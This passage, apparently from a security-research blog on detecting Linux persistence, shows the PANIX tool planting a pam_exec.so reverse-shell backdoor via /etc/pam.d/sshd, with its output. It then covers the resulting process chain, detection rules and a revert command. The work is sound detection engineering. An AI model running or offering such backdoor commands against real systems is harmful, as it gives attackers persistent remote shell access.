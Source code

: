 Let’s run the PANIX module with the following command line arguments:

```
> sudo ./panix.sh --pam --pam-exec --backdoor --ip 192.168.100.1 --port 2015

[+] Creating reverse shell script at /bin/pam_exec_backdoor.sh...
[+] /bin/pam_exec_backdoor.sh created and permissions set to 700.
[+] Modifying /etc/pam.d/sshd to include the PAM_EXEC rule...
[+] PAM_EXEC rule added to /etc/pam.d/sshd.
[+] Restarting SSH service to apply changes...
[+] SSH service restarted successfully.
[+] PAM_EXEC reverse shell backdoor planted!

Authenticate to trigger the reverse shell.

[+] PAM persistence established!
```

After triggering the reverse shell by authentication, we can analyze the logs in Discover:

![PANIX pam_exec.so module execution visualized in Kibana](/assets/images/approaching-the-summit-on-persistence/image3.png)

After PANIX executes, it creates and grants execution permissions to the `/bin/pam_exec_backdoor.sh` backdoor. Next, the backdoor configuration is added to the `/etc/pam.d/sshd` file, and the `SSHD` service is restarted. Upon authentication, we can see the execution of the backdoor by the `SSHD` parent process, starting the reverse shell chain (`pam_exec_backdoor.sh` → `nohup` → `setsid` → `bash`). 

Let’s review the coverage. The key distinction between this technique and the previous one is that this method relies on configuration changes rather than compiling a new PAM module, requiring a different set of detection rules to address the threat effectively:

*Detection and endpoint rules that cover pam_exec.so persistence*

| Category | Coverage |
| :---- | :---- |
| File | [Creation or Modification of Pluggable Authentication Module or Configuration](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/linux/persistence_pluggable_authentication_module_creation.toml) <br /> [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/integrations/fim/persistence_suspicious_file_modifications.toml) |
| Process | [Potential Backdoor Execution Through PAM_EXEC](https://github.com/elastic/protections-artifacts/blob/8a9e857453566068088f5a24cc1f39b839e60fe8/behavior/rules/linux/persistence_potential_backdoor_execution_through_pam_exec.toml) <br /> [Unusual SSHD Child Process](https://github.com/elastic/detection-rules/blob/e528feb989d8fc7f7ca8c4100c0bf5ca7b912a5d/rules/linux/persistence_unusual_sshd_child_process.toml) |

To revert any changes, you can use the corresponding revert module by running:

```
> ./panix.sh --revert pam

[+] Removing PAM_EXEC backdoor...
[+] Removed '/bin/pam_exec_backdoor.sh'.
[+] Removed PAM_EXEC line from '/etc/pam.d/sshd'.
[+] Restarting SSH service...
[+] SSH service restarted successfully.
[-] PAM_EXEC line not found in '/etc/pam.d/common-auth'.
```

### Hunting for T1556.003 - Pluggable Authentication Modules: pam_exec.so
